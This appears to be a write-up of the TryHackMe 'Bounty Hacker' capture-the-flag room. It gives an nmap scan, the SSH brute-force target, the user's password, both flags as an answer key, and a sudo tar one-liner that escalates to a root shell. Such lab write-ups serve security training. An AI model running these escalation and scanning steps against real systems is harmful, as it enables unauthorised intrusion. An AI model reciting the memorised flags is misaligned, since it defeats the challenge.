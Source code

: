 # Bounty Hacker

## Task 1 Living up to the title.

### Deploy the machine.

{% hint style="success" %}
No answer needed
{% endhint %}

### Find open ports on the machine

```
nmap -sC -sV -T5 -p1-65535 10.10.40.31
```

![](<../.gitbook/assets/image (308).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

### Who wrote the task list?

![](<../.gitbook/assets/image (306).png>)

![](<../.gitbook/assets/image (307).png>)

{% hint style="success" %}
lin
{% endhint %}

### What service can you bruteforce with the text file found?

{% hint style="success" %}
ssh
{% endhint %}

### What is the users password?

![](<../.gitbook/assets/image (309).png>)

{% hint style="success" %}
RedDr4gonSynd1cat3
{% endhint %}

### user.txt

![](<../.gitbook/assets/image (311).png>)

{% hint style="success" %}
THM{CR1M3\_SyNd1C4T3}
{% endhint %}

### root.txt

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

![](<../.gitbook/assets/image (313).png>)

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

{% hint style="success" %}
THM{80UN7Y\_h4cK3r}
{% endhint %}
